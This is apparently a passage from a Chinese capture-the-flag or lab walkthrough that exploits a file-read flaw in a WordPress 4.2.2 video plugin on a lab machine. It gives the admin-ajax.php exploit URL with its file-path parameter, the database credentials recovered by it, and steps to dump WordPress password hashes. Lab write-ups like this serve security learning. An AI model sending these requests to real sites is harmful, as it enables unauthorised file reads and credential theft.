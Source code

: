 ```
Wordpress 4.2.2 videos exploit，去谷歌搜索能利用的exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvYWshaoQ72Oj4dDaIbciakdbyjPtJibic6fJPPAJc9movlqrNLLaVwjDibA/640?wx_fmt=png)

或者 kali 搜索

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvwicHHHicIHcEXe4KGBZKSxbm2m9IwDCPrtyFs55VrTRHxb66hS8PRP4w/640?wx_fmt=png)

了解下 python 写的 exp，学习学习

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvZFrhm3SGPZV7L4ACUrS0SevKmpmmcHYqyMF783zdzMmM0OtzAbkbmA/640?wx_fmt=png)

这边利用 39646.c 代码中的：

```
http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]
Exploit - Print the content of wp-config.php in terminal (default Wordpress config)
```

直接访问

```
http://192.168.56.108/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/var/
```

页面内容会出现一个地址：

```
https://192.168.56.108/blogblog/?p-250（访问）
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBv16BRIl7yKQiaHvTud6hBYJewibR2ZX1dwc0v8deprmHvuibjGesCSX3BQ/640?wx_fmt=png)

下载后查看

  
![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvRCpeSKLNcZGNWddIbJMWOcEzmibY3C9O0RpYxTMj6icz0jUR8AravRJQ/640?wx_fmt=png)

```
root/plbkac
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvP8G1flvFInsMzGjaxpyMoKjkpnGQjQC8ibibyIhONOCf6HqSwmYlv6fw/640?wx_fmt=png)

登录数据库

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvRuGwmWGznvPZ5PttokOiaYvGZTGWUfKdtV18DhC5Y3Om6MxibehiaL8nQ/640?wx_fmt=png)

转到 WordPress 并检索用户

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvYwkOqYpKSxqAyJT5xB4uttPnAJSF2sojniaiaqicC5LSzFxQ8j6s1LIvg/640?wx_fmt=png)

将文件拷出放到文本，然后扫选出 user_pass 值

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOPWicz5ChQJgSNCWyGbSSBvLp7tcibLib7ibojxQbjRo96DoK7vetVDuicibeMkeeltCHWCfJRD5Hr4bZQ/640?wx_fmt=png)
